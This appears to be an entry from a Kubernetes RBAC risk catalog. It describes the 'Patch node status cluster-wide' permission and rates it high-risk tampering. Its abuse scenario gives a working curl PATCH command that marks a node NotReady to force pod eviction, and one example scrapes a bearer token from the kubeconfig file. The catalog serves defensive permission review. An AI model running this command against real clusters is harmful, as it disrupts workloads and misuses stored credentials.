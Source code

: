 ```yaml
---
id: 1069
title: "Patch node status cluster-wide"
description: "Allows patching the status of any node in the cluster. This can be abused to mark nodes as (un)healthy or (un)schedulable, impacting workload scheduling, potentially tricking controllers, or causing denial of service."
category: Tampering
risk_level: RiskLevelHigh
date: ""
---
```


## Overview

| Field         | Value                                                                                                              |
| ------------- | ------------------------------------------------------------------------------------------------------------------ |
| ID            | 1069                                                                                                               |
| Name          | Patch node status cluster-wide                                                                                     |
| Risk Category | Tampering                                                                                                          |
| Risk Level    | {{< risk High >}}                                                                                                  |
| Role Type     | ClusterRole                                                                                                        |
| API Groups    | core                                                                                                               |
| Resources     | nodes/status                                                                                                       |
| Verbs         | patch, update                                                                                                      |
| Tags          | {{< tag "DenialOfService" >}} {{< tag "NodeManipulation" >}} {{< tag "SchedulingAbuse" >}} {{< tag "Tampering" >}} |

## Description

Allows patching the status of any node in the cluster. This can be abused to mark nodes as (un)healthy or (un)schedulable, impacting workload scheduling, potentially tricking controllers, or causing denial of service.

## Abuse Scenarios

1. Patch a node's status to mark it as 'NotReady', causing pods to be evicted.

```bash
# Replace <kubernetes-api-server> with your API server address
# Replace <token> with your authentication token
curl -k -H "Authorization: Bearer <token>" -H "Content-Type: application/json" -X PATCH \
  --data '{"status":{"conditions":[{"type":"Ready","status":"False","reason":"KubeletStopped","message":"Kubelet stopped posting node status."}]}}' \
  https://<kubernetes-api-server>/api/v1/nodes/<node-name>/status
# Example: curl -k -H "Authorization: Bearer $(cat ~/.kube/config | grep token: | awk '{print $2}')" -H "Content-Type: application/json" -X PATCH --data '{"status":{"conditions":[{"type":"Ready","status":"False","reason":"KubeletStopped","message":"Kubelet stopped posting node status."}]}}' https://127.0.0.1:6443/api/v1/nodes/minikube/status

```
